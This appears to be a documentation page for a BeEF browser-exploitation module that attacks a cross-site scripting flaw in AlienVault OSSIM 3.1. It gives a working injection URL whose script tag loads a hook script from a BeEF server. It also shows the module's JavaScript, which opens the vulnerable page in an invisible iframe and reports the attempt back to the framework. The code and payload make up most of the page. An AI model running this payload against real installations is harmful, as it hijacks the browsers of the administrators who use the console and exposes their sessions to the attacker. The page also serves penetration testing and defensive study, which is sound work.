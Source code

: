## Summary

* **Objective**: Attempts to hook AlienVault OSSIM 3.1 using XSS
* **Authors**: bcoles, muts
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/exploits/xss/alienvault_ossim_3.1_xss)

## Internal Working

Creates an iframe targetting the AlienVault endpoint vulnerable to XSS.

Example target URL: 
`http://target/ossim/top.php?option=3&soption=3&url=<script src=http://0.0.0.0:3000/hook.js></script>`


```js
        var uri = beef.encode.base64.decode('<%= Base64.strict_encode64(@uri) %>');

        var alienvault_iframe_<%= @command_id %> = beef.dom.createInvisibleIframe();
        alienvault_iframe_<%= @command_id %>.setAttribute('src', uri);

        beef.net.send("<%= @command_url %>", <%= @command_id %>, "result=exploit attempted");

```

## References

http://www.exploit-db.com/exploits/20062/


## Feedback

